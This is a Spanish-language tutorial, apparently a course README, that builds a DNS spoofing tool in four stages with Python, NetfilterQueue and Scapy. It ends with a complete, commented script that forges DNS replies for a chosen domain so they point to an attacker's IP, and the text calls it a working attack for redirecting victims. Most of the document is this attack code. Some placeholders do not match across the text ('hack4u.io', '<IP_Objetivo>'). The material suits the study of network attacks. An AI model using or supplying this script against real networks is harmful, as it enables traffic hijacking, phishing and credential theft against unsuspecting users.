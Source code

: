 
---

# Evolución del Script de DNS Spoofing

A lo largo de la creación de un script pasamos por diferentes etapas, cada una agregando una funcionalidad clave para llegar al ataque DNS Spoofing completo. Vamos a analizar cómo ha evolucionado el código paso a paso.

## Primer script: Captura de paquetes (detección inicial)

```python
import netfilterqueue

def process_packet(packet):
    packet.accept()

queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

**¿Qué hace?**

- Captura paquetes de la cola de Netfilter pero no los analiza ni modifica.
- Simplemente los acepta sin hacer nada.
- Nos sirve como base para entender el funcionamiento de NetfilterQueue y probar que estamos interceptando tráfico correctamente.

---

## Segundo script: Inspección de tráfico (análisis del contenido)

```python
import netfilterqueue
import scapy.all as scapy

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    print(scapy_packet)
    packet.accept()
```

**¿Qué añade?**

- Introduce Scapy para analizar los paquetes capturados.
- Convierte los paquetes en objetos `scapy.IP()` para poder inspeccionarlos.
- Muestra en pantalla cada paquete que pasa por la cola.

**¿Por qué es útil?**

- Nos permite ver qué tipo de tráfico estamos interceptando.
- Sirve para entender qué modificar en los siguientes pasos.

---

## Tercer script: Filtrado de consultas DNS (enfocando el ataque)

```python
import netfilterqueue
import scapy.all as scapy

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    
    if scapy_packet.haslayer(scapy.DNSQR):  # Verifica si es una consulta DNS
        qname = scapy_packet[scapy.DNSQR].qname  # Extrae el dominio consultado
        
        if b"<dominio_ejmplo.com>" in qname:  # Si el dominio es <dominio_ejmplo.com>
            print(f"\n[+] Detectada consulta DNS a <dominio_ejmplo.com>")
            print(scapy_packet.show())  # Muestra el paquete
    
    packet.accept()
```

**¿Qué añade?**

- Filtra solo los paquetes que contienen consultas DNS (`DNSQR`).
- Extrae el nombre del dominio consultado (`qname`).
- Si el dominio es "hack4u.io", imprime un mensaje y muestra el contenido del paquete.

**¿Por qué es útil?**

- Nos permite focalizar el ataque en un dominio específico en lugar de capturar todo el tráfico.
- Es el primer paso para interceptar y luego modificar las respuestas DNS.

---

## Cuarto script: Modificación de respuestas DNS (ataque DNS Spoofing)

```python
#!/usr/bin/env python3

import netfilterqueue  # Importa la librería para manipular la cola de paquetes
import scapy.all as scapy  # Importa Scapy para analizar y modificar paquetes
import signal  # Manejo de señales (ejemplo: Ctrl+C)
import sys  # Permite salir del programa con sys.exit()

# Manejo de la señal SIGINT (Ctrl+C) para salir limpiamente
def def_handler(sig, frame):
    print(f"\n[!] Saliendo...")
    sys.exit(1)

# Asigna la función def_handler a la señal SIGINT
signal.signal(signal.SIGINT, def_handler)

# Función que procesa cada paquete capturado
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())  # Convierte el paquete en un objeto de Scapy

    # Verifica si el paquete contiene una respuesta DNS
    if scapy_packet.haslayer(scapy.DNSRR):  
        qname = scapy_packet[scapy.DNSQR].qname  # Obtiene el dominio consultado

        # Si el dominio es <dominio_ejmplo.com>, se ejecuta el ataque
        if b"<dominio_ejmplo.com>" in qname:  
            print(f"\n[+] Envenenando el dominio <dominio_ejmplo.com>")

            # Crea una respuesta DNS falsa que redirige a la IP <IP_Atacante>
            answer = scapy.DNSRR(rrname=qname, rdata="<IP_Atacante>")  
            scapy_packet[scapy.DNS].an = answer  # Reemplaza la respuesta DNS original con la falsa
            scapy_packet[scapy.DNS].ancount = 1  # Establece el número de respuestas a 1

            # Borra los campos de longitud y checksum para que Scapy los regenere automáticamente
            del scapy_packet[scapy.IP].len  
            del scapy_packet[scapy.IP].chksum  
            del scapy_packet[scapy.UDP].len  
            del scapy_packet[scapy.UDP].chksum  

            # Reconstruye el paquete y lo inyecta en el flujo de datos
            packet.set_payload(scapy_packet.build())  

    packet.accept()  # Acepta el paquete y lo deja pasar

# Crea la cola de NetfilterQueue y la asocia a la función process_packet
queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)  # Captura los paquetes de la cola con ID 0
queue.run()  # Inicia el procesamiento de paquetes
```

**¿Qué añade?**

- Modifica las respuestas DNS para redirigir a la IP `<IP_Objetivo>`.
- Inyecta una respuesta falsa (`DNSRR`) con la nueva IP en el paquete DNS.
- Borra checksums y longitudes para evitar errores al reinyectar el paquete en la red.
- Reemplaza el paquete original con el modificado antes de reenviarlo.

---

## Conclusión: ¿Por qué esta evolución?

1. **Captura del tráfico** → Primero aseguramos que los paquetes llegan correctamente.
2. **Análisis del tráfico** → Luego inspeccionamos qué datos contienen los paquetes.
3. **Filtrado de DNS** → Nos enfocamos en capturar solo lo que nos interesa.
4. **Modificación de paquetes** → Finalmente alteramos las respuestas DNS para manipular el tráfico.

Este flujo es necesario para que el ataque sea efectivo. Ahora el script final es un ataque funcional de DNS Spoofing, capaz de redirigir a las víctimas a un servidor controlado por el atacante.

---
